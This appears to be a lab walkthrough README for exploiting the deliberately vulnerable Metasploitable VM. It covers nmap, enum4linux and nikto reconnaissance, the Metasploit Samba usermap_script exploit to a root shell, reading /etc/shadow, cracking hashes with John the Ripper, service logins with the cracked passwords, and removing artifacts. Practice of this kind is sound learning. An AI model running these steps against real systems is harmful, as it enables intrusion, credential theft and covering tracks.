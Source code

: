 # Metasploitable Walkthrough by LIONMAD

This README provides a step-by-step guide to identifying and exploiting vulnerabilities in the Metasploitable virtual machine for learning and practice purposes.

---

## Prerequisites

- **VirtualBox** or **VMware** installed on your machine.
- **Metasploitable VM** downloaded and configured.
- **Kali Linux** or any penetration testing OS installed.
- Basic knowledge of Linux and penetration testing tools.

---

## Step 1: Initial Setup

### Network Configuration

- Set the network of both Metasploitable and the attacker machine to **NAT Network** or **Host-Only** to ensure they are on the same subnet.

### Metasploitable: 1 Details

- **Name:** Metasploitable: 1  
- **Date Released:** May 19, 2010  
- **Author:** Metasploit  
- **Series:** Metasploitable  
- **Web Page:** [Metasploitable Blog](http://web.archive.org/web/20100525233058/http://blog.metasploit.com/2010/05/introducing-metasploitable.html)

### Download

- **File:** `Metasploitable.zip` (Size: 545 MB)  
- **Download Link:** [Download from VulnHub](https://download.vulnhub.com/metasploitable/Metasploitable.zip)

> **Note:** VulnHub is a free community resource. Review their FAQs about safely using vulnerable VMs before proceeding.

### Example Target IP:
- **Target IP:** `192.168.48.145`

---

## Step 2: Reconnaissance

### Nmap

#### Command:
```bash
nmap 192.168.48.1/24 -sV
```
#### Example Output:
```
Nmap scan report for 192.168.48.145
Host is up (0.0021s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.1
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```

### Enum4Linux

#### Command:
```bash
enum4linux -a 192.168.48.145
```
#### Example Output:
```
Known Usernames: administrator, guest, krbtgt, domain admins, root, bin, none
Workgroup/Domain: WORKGROUP
```

### Nikto

#### Command:
```bash
nikto -h 192.168.48.145
```
#### Example Findings:
- **Apache mod_negotiation**: Enabled with MultiViews.
- **Outdated Software**: Apache 2.2.8, PHP 5.2.4.
- **Directory Indexing**: Found `/icons/`.
- **Vulnerabilities**: X-Frame-Options header missing, potential XST (Cross-Site Tracing).

---

## Step 3: Exploitation

### Exploiting Samba Usermap Script

#### Commands:
```bash
msfconsole -q
use exploit/multi/samba/usermap_script
set rhosts 192.168.48.145
run
```
#### Example Output:
```
[*] Command shell session 1 opened...
root@metasploitable:/#
```

### Example Commands in Shell:
```bash
ls
cat /etc/shadow
```

---

## Step 4: Cracking Hashes

### Using John the Ripper

#### Command:
```bash
john --wordlist='/path/to/rockyou.txt' hash.txt
```
#### Example Output:
```
msfadmin:msfadmin
klog:123456789
sys:batman
service:service
```

---

## Step 5: Accessing Other Services

### FTP Access

#### Command:
```bash
ftp msfadmin@192.168.48.145
```
#### Example Output:
```
Remote directory: /home/msfadmin
```

### Telnet Access

#### Command:
```bash
telnet 192.168.48.145
```
#### Example Output:
```
metasploitable login: service
Password: service
```

---

## Step 6: Cleanup

- Close any open sessions.
- Remove any files created during exploitation.
- Verify no artifacts are left on the target.

---

## Notes

- **Educational Use Only**: Ensure you have proper authorization before testing.
- Metasploitable is intentionally vulnerable; use responsibly in controlled environments.

